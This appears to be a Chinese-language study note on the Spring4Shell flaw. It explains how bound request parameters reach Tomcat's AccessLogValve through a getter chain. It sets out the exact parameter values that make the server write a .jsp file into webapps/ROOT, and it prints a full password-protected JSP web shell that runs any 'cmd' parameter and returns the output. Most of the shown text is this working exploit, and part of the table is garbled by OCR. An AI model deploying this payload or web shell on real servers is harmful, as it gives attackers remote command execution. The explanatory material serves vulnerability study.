 | 参数名                                                       | 参数值                                                       |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `class.module.classLoader.resources.context.parent.pipeline.first.pattern` | `% { c 2 } i i f ( " j " . e q u a l s ( r e q u e s t . g e t P a r a m e t e r ( " p w d " ) ) ) { j a v a . i o . I n p u t S t r e a m i n = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getIn putStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } }` |
| `class.module.classLoader.resources.context.parent.pipeline.first.suffix` | `.jsp`                                                       |
| `class.module.classLoader.resources.context.parent.pipeline.first.directory` | `webapps/ROOT`                                               |
| `class.module.classLoader.resources.conte xt.parent.pipeline.first.prefix` | `wuya`                                                       |
| `class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat` |                                                              |

`org.apache.catalina.valves.AccessLogValve` 对象

## 调用链

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern

User.getClass()
java.lang.Class.getModule()
java.lang.Module.getClassLoader()
org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
org.apache.catalina.webresources.StandardRoot.getContext()
org.apache.catalina.core.StandardContext.getParent()
org.apache.catalina.core.StandardHost.getPipeline()
org.apache.catalina.core.StandardPipeline.getFirst()
org.apache.catalina.valves.AccessLogValve.setPattern()
```

## User对象有什么属性？

**缓存了一个 Class属性**

![image-20230423122411971](https://img.gyxnb.top/img/image-20230423122411971.png)

## JSP木马

```
<%
if("j".equals(request.getParameter("pwd"))){
java.io.InputStream in =
Runtime.getRuntime().exec(request.getParameter("cmd")).getInp
utStream();
int a = -1;
byte[] b = new byte[2048];
while((a=in.read(b))!=-1){
out.println(new String(b));
		}
	}
%>
```
